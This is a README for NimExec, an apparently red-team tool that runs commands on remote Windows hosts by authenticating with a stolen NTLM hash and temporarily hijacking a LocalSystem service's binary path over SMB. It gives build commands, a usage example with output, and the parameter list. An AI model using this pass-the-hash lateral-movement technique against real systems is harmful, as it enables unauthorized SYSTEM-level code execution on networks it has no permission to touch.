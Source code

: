# NimExec
Basically, NimExec is a fileless remote command execution tool that uses The Service Control Manager Remote Protocol (MS-SCMR). It changes the binary path of a random or given service run by LocalSystem to execute the given command on the target and restores it later via hand-crafted RPC packets instead of WinAPI calls. It sends these packages over SMB2 and the svcctl named pipe.

NimExec needs an NTLM hash to authenticate to the target machine and then completes this authentication process with the NTLM Authentication method over hand-crafted packages.

Since all required network packages are manually crafted and no operating system-specific functions are used, NimExec can be used in different operating systems by using Nim's cross-compilability support.

# Compilation
```
nim c -d:release --gc:markAndSweep -o:NimExec.exe Main.nim
```

The above command uses a different Garbage Collector because the default garbage collector in Nim is throwing some SIGSEGV errors during the service searching process.

Also, you can install the required Nim modules via Nimble with the following command:

```
nimble install ptr_math nimcrypto hostname
```
# Usage
```
test@ubuntu:~/Desktop/NimExec$ ./NimExec -u testuser -d TESTLABS -h 123abcbde966780cef8d9ec24523acac -t 10.200.2.2 -c 'cmd.exe /c "echo test > C:\Users\Public\test.txt"' -v
 
                                                                                             _..._     
                                                                                          .-'_..._''.  
   _..._   .--. __  __   ___         __.....__                          __.....__       .' .'      '.\ 
 .'     '. |__||  |/  `.'   `.   .-''         '.                    .-''         '.    / .'            
.   .-.   ..--.|   .-.  .-.   ' /     .-''"'-.  `.                 /     .-''"'-.  `. . '              
|  '   '  ||  ||  |  |  |  |  |/     /________\   \ ____     _____/     /________\   \| |              
|  |   |  ||  ||  |  |  |  |  ||                  |`.   \  .'    /|                  || |              
|  |   |  ||  ||  |  |  |  |  |\    .-------------'  `.  `'    .' \    .-------------'. '              
|  |   |  ||  ||  |  |  |  |  | \    '-.____...---.    '.    .'    \    '-.____...---. \ '.          . 
|  |   |  ||__||__|  |__|  |__|  `.             .'     .'     `.    `.             .'   '. `._____.-'/ 
|  |   |  |                        `''-...... -'     .'  .'`.   `.    `''-...... -'       `-.______ /  
|  |   |  |                                        .'   /    `.   `.                               `   
'--'   '--'                                       '----'       '----'                                  

                                            @R0h1rr1m          


[+] Connected to 10.200.2.2:445
[+] NTLM Authentication with Hash is succesfull!
[+] Connected to IPC Share of target!
[+] Opened a handle for svcctl pipe!
[+] Bound to the RPC Interface!
[+] RPC Binding is acknowledged!
[+] SCManager handle is obtained!
[+] Number of obtained services: 265
[+] Selected service is LxpSvc
[+] Service: LxpSvc is opened!
[+] Previous Service Path is: C:\Windows\system32\svchost.exe -k netsvcs
[+] Service config is changed!
[!] StartServiceW Return Value: 1053 (ERROR_SERVICE_REQUEST_TIMEOUT)
[+] Service start request is sent!
[+] Service config is restored!
[+] Service handle is closed!
[+] Service Manager handle is closed!
[+] SMB is closed!
[+] Tree is disconnected!
[+] Session logoff!
```

It's tested against Windows 10&11, Windows Server 16&19&22 from Ubuntu 20.04 and Windows 10 machines.
# Command Line Parameters

``` 
    -v | --verbose                          Enable more verbose output.
    -u | --username <Username>              Username for NTLM Authentication.*
    -h | --hash <NTLM Hash>                 NTLM password hash for NTLM Authentication.*
    -t | --target <Target>                  Lateral movement target.*
    -c | --command <Command>                Command to execute.*
    -d | --domain <Domain>                  Domain name for NTLM Authentication.
    -s | --service <Service Name>           Name of the service instead of a random one.
    --help                                  Show the help message.

```


